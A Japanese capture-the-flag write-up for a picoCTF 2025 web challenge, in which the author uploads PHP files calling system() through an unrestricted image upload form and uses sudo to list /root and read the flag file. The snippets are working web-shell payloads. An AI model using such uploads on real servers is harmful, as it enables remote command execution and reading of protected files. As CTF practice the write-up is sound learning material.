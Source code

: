 #easy #Web_Exploitation #picoCTF_2025 #browser_webshell_solvable

# Overview
![[Pasted image 20250528142915.png]]
flagは/rootにあるようです。やってみましょう

# Server Detail
画像をアップロードできて画像を保存してくれるみたい。
![[Screenshot 2025-05-28 at 14.49.32.png]]
`/upload.php`ってあるからPHPで動いているようです。
![[Screenshot 2025-05-28 at 14.50.29.png]]

![[Screenshot 2025-05-28 at 14.50.57.png]]
それと何でもアップロードできちゃう、mp3とかも.phpファイルとかもアップロードしたらサーバー側で実行してくれそう。

# How to Capture the flag

コマンドを実行するphpファイルを作成してアップロード&開く
作成したphpファイル
```php
<?php
system("ls /root");
?>
```
実行されたっぽいけどEmptyが返ってきました。

root権限の不足っぽい? sudo付きで試してみます
```php
<?php
system("sudo ls /root");
?>
```
![[Screenshot 2025-05-28 at 14.55.13.png]]
`/root`の中身が帰ってきました!!
ではこのまま`/root/flag.txt`を見てみましょう 👀
```php
<?php
system("sudo cat /root/flag.txt");
?>
```
Gotcha!
![[Screenshot 2025-05-28 at 14.57.08.png]]
フラグを掴むことができました🚩